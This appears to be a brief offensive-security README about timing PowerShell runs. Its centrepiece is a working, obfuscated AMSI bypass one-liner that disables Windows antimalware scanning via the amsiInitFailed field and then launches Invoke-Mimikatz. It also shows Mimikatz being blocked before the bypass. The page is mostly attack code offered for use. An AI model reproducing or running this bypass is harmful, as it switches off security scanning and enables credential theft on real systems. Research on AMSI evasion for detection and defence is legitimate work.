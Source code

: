 Using the measure / stopwatch ability in powershell to break it 

The code is not very complex

```powershell
$StopWatch = [diagnostics.stopwatch]::startNew()
#HERE IS YOUR AMSI BYPASS#
#HERE IS YOUR PAYLOAD#
#Other stuff as required
$StopWatch.ElapsedMilliseconds
```
as a one liner, it would look like this
```powershell
$StopWatch = [diagnostics.stopwatch]::startNew() ; <#HERE IS YOUR AMSI BYPASS##HERE IS YOUR PAYLOAD#> ; $StopWatch.ElapsedMilliseconds
```


## Example

### Check for AMSI

```powershell
PS C:\Users\c> invoke-mimikatz
At line:1 char:1
+ invoke-mimikatz
+ ~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent
```

### Run One
```powershell
$StopWatch = [diagnostics.stopwatch]::startNew() ;  S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} ) ; Invoke-Mimikatz ; $StopWatch.ElapsedMilliseconds
```
